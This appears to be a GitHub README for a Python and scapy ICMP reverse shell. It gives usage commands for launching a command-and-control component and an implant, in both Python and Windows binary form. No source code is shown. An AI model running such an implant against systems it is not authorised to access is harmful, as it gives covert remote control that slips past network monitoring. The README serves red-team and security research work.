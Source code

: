 # ICMP Reverse Shell
ICMP reverse shell written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10.

More info: https://cryptsus.com/blog/icmp-reverse-shell.html

Python version (both Windows and Linux):
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```

Widows binary version:
```bash
./icmp-cnc.exe -d DESTINATION_IP (Command and Control)
./icmpdoor.exe -d DESTINATION_IP (Implant)
```

Parameters details:
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
